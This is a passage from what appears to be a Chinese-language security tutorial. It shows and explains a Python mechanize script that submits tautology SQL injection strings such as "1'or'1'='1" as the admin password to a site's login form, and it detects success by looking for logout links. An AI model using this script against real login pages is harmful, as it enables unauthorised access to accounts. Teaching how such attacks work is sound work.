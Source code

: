 ```py
for form in br.forms():
  print form
br.select_form(nr=0)
pass_exp = ["1'or'1'='1",'1" or "1"="1']

user1 = raw_input("Enter the Username ")
pass1 = raw_input("Enter the Password ")

flag =0
p =0
while flag ==0:
  br.select_form(nr=0)
  br.form[user1] = 'admin'
  br.form[pass1] = pass_exp[p]
  br.submit()
  data = ""
  for link in br.links():
    data=data+str(link)

  list = ['logout','logoff', 'signout','signoff']
  data1 = data.lower()

  for l in list:
    for match in re.findall(l,data1):
      flag = 1
  if flag ==1:
    print "t Success in ",p+1," attempts"
    print "Successfull hit --> ",pass_exp[p]

  elif(p+1 == len(pass_exp)):
    print "All exploits over "
    flag =1
  else :
    p = p+1
```

在`for`循环之前，您应该能够理解程序。`pass_exp`变量表示包含基于重言式的密码攻击的列表。`user1`和`pass1`变量要求用户输入用户名和密码字段，如表单所示。`flag=0`变量使`while`循环继续，`p`变量初始化为`0`。在`while`循环（即`br.select_form(nr=0)`语句）中，选择 HTML 表单一。实际上，此代码基于这样的假设：当您转到登录屏幕时，它将在第一个 HTML 表单中包含登录用户名和密码字段。`br.form[user1] = 'admin'`语句存储用户名；实际上，我用它使代码简单易懂。`br.form[pass1] = pass_exp[p]`语句显示传递给`br.form[pass1]`的`pass_exp`列表的元素。接下来，`for`循环部分将输出转换为字符串格式。我们如何知道密码是否已被成功接受？您已经看到，在成功登录到页面后，您将在页面上找到一个注销或注销选项。我在一个名为`list`的列表中存储了注销和注销选项的不同组合。`data1 = data.lower()`语句将所有数据更改为小写。这样可以很容易地在数据中找到注销或注销条款。现在，让我们看看代码：

```py
for l in list:
    for match in re.findall(l,data1):
      flag = 1
```

前面的代码将在`data1`中找到`list`的任何值。如果找到匹配项，则`flag`变为`1`；这将打破`while`循环。接下来，`if flag ==1`语句将显示成功的尝试。让我们看下一行代码：

```py
elif(p+1 == len(pass_exp)):
    print "All exploits over "
    flag =1
```
